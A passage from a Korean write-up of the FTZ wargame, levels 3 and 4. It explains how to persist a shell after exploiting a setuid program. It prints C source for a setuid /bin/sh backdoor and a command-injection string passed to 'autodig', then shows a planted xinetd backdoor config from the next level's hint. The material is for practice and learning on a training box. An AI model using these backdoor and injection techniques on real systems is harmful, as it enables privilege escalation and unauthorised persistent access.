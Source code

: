 ### Backdoor

오... 굉장히 좋은 내용이다. 뭐 사실 패스워드를 획득했으니 필요 없지만 매번 suid가 설정된 `autodig`를 이용해 접근하기 불편하니 백도어를 만들어 놓는다 라는 취지다.

```c
int main(){     
    
        char *cmd[2];        
        cmd[0]="/bin/sh";
        cmd[1]=(void *)0; 
        setreuid(3004,3004);
        execve(cmd[0],cmd,cmd[1]);
}
```

위의 코드를 이용하여 백도어를 만든다. 아래와 같이 `/tmp/backdoor.c` 라는 파일을 만들고 마찬가지로 `autodig`를 이용해 `gcc` , `chmod`를 이용해 컴파일하고 setuid를 설정해주면 된다. 이후로는 해당 프로그램만 실행하면 바로 셸을 획득하는 것을 볼 수 있다.

```
[level3@ftz level3]$ autodig "127.0.0.1;echo 'int main(){char *cmd[2];cmd[0]=\"/bin/sh\";cmd[1]=(void *)0; setreuid(3004,3004);execve(cmd[0],cmd,cmd[1]);}'>/tmp/backdoor.c;"

; <<>> DiG 9.2.1 <<>> @127.0.0.1
;; global options:  printcmd
;; connection timed out; no servers could be reached
sh: line 1: version.bind: command not found
```

## [+] FTZ level4

### Analysis

먼저 문제에 힌트를 확인하면 다음과 같은 문구를 볼 수 있다.

```
[level4@ftz level4]$ cat hint


누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

이를 이용해 `xinetd.d` 디렉토리를 확인하면 `backdoor`라는 친절한 설정파일을 확인할 수 있다.

```
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor 
service finger 
{
	disable	= no
	flags		= REUSE
	socket_type	= stream        
	wait		= no
	user		= level5
	server		= /home/level4/tmp/backdoor
	log_on_failure	+= USERID
}
```
